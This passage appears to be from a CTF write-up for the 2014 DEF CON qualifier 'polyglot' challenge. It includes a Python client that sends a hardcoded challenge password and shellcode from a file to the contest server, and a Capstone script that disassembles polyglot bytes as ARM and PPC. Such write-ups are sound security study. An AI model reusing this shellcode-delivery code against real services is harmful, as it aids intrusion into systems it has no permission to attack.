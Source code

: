 <pre class="brush: plain; title: ; notranslate" title="">SELECT_TIMEOUT = 2;

def	callmefunc(sock, buff):
	print(buff);
	if "Password" in buff:
		sock.send("w0rk_tHaT_tAlEnTeD_t0nGu3n");
	if "Give me shellcode" in buff:
		f = open("sc.bin", "rb");
		buff = f.read();
		sock.send(buff);
	return 0;

def	recv_all(sock, callme):
	buff = "";
	while True:
		rlist = select.select([sock,], [], [], SELECT_TIMEOUT)[0];
		if len(rlist) == 0: continue;
		try:
			buff = sock.recv(0x1000);
		except:
			break;
		if not buff: break;
		ret = callme(sock, buff);
		if ret != 0:
			sock.close();
			return;

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
sock.connect(("polyglot_9d64fa98df6ee55e1a5baf0a170d3367.2014.shallweplayaga.me", 30000));

recv_all(sock, callmefunc);

exit();


</pre>

**capstone python code for testing**

<pre class="brush: plain; title: ; notranslate" title="">import capstone


#code =  "xE0x00x00xEB";
#code += "xEBx00x00xe0";
code = "";
code += "x33xc0x74x10";
code += "x48x00x01x00";
code += "x00x01x00x48";

print("ARM:")
md = capstone.Cs(capstone.CS_ARCH_ARM, capstone.CS_MODE_ARM);
data = md.disasm(code, 0x0);
for insn in data:
	print("0x%.08x: %s %s" % (insn.address, insn.mnemonic, insn.op_str));


print("PPC:");
md = capstone.Cs(capstone.CS_ARCH_PPC, capstone.CS_MODE_BIG_ENDIAN);
data = md.disasm(code, 0x0);
for insn in data:
	print("0x%.08x: %s %s" % (insn.address, insn.mnemonic, insn.op_str));


 [1]: http://deroko.phearless.org/polyglot/polyglot_9d64fa98df6ee55e1a5baf0a170d3367
 [2]: http://deroko.phearless.org/polyglot/polyglot_6a3875ce36a55889427542903cd43893
 [3]: http://deroko.phearless.org/polyglot/polyglot_c0e7a26d7ce539efbecc970c154de844
 [4]: http://deroko.phearless.org/polyglot/polyglot_5b78585342a3c116aebb5a9b45e88836